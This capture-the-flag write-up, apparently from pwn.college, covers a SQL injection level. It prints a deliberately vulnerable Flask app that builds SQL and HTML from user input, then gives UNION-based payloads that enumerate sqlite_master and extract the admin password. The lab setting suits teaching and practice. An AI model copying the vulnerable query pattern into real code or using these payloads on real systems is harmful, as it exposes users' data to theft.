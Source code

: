 This is similar to the previous level, except this time, the `users` table name is randomized and is not shown on the website.

```python
#!/opt/pwn.college/python

import random
import flask
import os

app = flask.Flask(__name__)

import sqlite3
import tempfile

class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result

db = TemporaryDB()

random_user_table = f"users_{random.randrange(2**32, 2**33)}"
db.execute(f"""CREATE TABLE {random_user_table} AS SELECT "admin" AS username, ? as password""", [open("/flag").read()])

# https://www.sqlite.org/lang_insert.html
db.execute(f"""INSERT INTO {random_user_table} SELECT "guest" as username, "password" as password""")

@app.route("/", methods=["GET"])
def challenge():
    query = flask.request.args.get("query", "%")

    try:
        # https://www.sqlite.org/schematab.html
        # https://www.sqlite.org/lang_select.html
        sql = f'SELECT username FROM {random_user_table} WHERE username LIKE "{query}"'
        print(f"DEBUG: {query=}")
        results = "\n".join(user["username"] for user in db.execute(sql).fetchall())
    except sqlite3.Error as e:
        results = f"SQL error: {e}"

    return f"""
        <html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='{query}'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>{ sql.replace(random_user_table, "REDACTED") }</pre><br>
        <b>Results:</b><pre>{results}</pre>
        </body></html>
        """

app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

We need to somehow find the name of the `users` table. For that, we can query the `sqlite_master` table to get the name of the tables in the current database.

```
Query: admin" UNION SELECT name FROM sqlite_master WHERE type='table'--
```

This will give us the name of the `users` table, with that, we can query that table for the password associated with the `admin` account:

```
Query: admin" UNION SELECT password FROM user_1234 where username='admin'--
```